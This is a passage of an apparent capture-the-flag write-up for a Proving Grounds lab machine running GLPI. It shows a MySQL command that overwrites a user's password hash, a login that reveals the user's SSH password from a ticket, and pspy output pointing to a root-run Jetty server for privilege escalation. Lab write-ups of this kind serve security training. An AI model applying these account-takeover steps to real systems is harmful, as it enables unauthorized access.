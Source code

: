 ```sh
mysql> update glpi_users set password='$2y$10$fru.LI69CNTHWpFP.w84N.qq/8n8S9.fkKjK1lp95Q1anPY6yhRzu' where id=7;
update glpi_users set password='$2y$10$fru.LI69CNTHWpFP.w84N.qq/8n8S9.fkKjK1lp95Q1anPY6yhRzu' where id=7;
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Login to user betty on the GLPI web application.

There is a ticket created by betty for password reset and the ticket contains the latest password for the user betty.

![img](/assets/images/CTF/Proving_Grounds/GLPI/ticket.png)

SSH to the user betty using credentials `betty:SnowboardSkateboardRoller234`.

Download and run `pspy` on the attacking machine to monitor the running process to escalate privileges.

pspy show the jetty server is running as root user.

```sh
2023/10/17 02:30:24 CMD: UID=0     PID=1449   | /usr/libexec/fwupd/fwupd 
2023/10/17 02:30:24 CMD: UID=0     PID=1255   | /usr/bin/java -Djava.io.tmpdir=/tmp -Djetty.home=/opt/jetty -Djetty.base=/opt/jetty/jetty-base --class-path /opt/jetty/jetty-base/resources:/opt/jetty/lib/logging/slf4j-api-2.0.0.jar:/opt/jetty/lib/logging/jetty-slf4j-impl-11.0.12.jar:/opt/jetty/lib/jetty-jakarta-servlet-api-5.0.2.jar:/opt/jetty/lib/jetty-http-11.0.12.jar:/opt/jetty/lib/jetty-server-11.0.12.jar:/opt/jetty/lib/jetty-xml-11.0.12.jar:/opt/jetty/lib/jetty-util-11.0.12.jar:/opt/jetty/lib/jetty-io-11.0.12.jar:/opt/jetty/lib/jetty-security-11.0.12.jar:/opt/jetty/lib/jetty-servlet-11.0.12.jar:/opt/jetty/lib/jetty-webapp-11.0.12.jar:/opt/jetty/lib/jetty-deploy-11.0.12.jar org.eclipse.jetty.xml.XmlConfiguration java.version=11.0.17 java.version.major=11 java.version.micro=17 java.version.minor=0 java.version.platform=11 jetty.base=/opt/jetty/jetty-base jetty.base.uri=file:///opt/jetty/jetty-base jetty.home=/opt/jetty jetty.home.uri=file:///opt/jetty jetty.state=/opt/jetty/jetty-base/jetty.state jetty.webapp.addServerClasses=org.eclipse.jetty.logging.,${jetty.home.uri}/lib/logging/,org.slf4j. runtime.feature.alpn=true slf4j.version=2.0.0 /opt/jetty/etc/jetty-bytebufferpool.xml /opt/jetty/etc/jetty-threadpool.xml /opt/jetty/etc/jetty.xml /opt/jetty/etc/jetty-webapp.xml /opt/jetty/etc/jetty-deploy.xml /opt/jetty/etc/jetty-http.xml /opt/jetty/etc/jetty-started.xml start-log-file=/var/run/jetty/jetty-start.log 
```
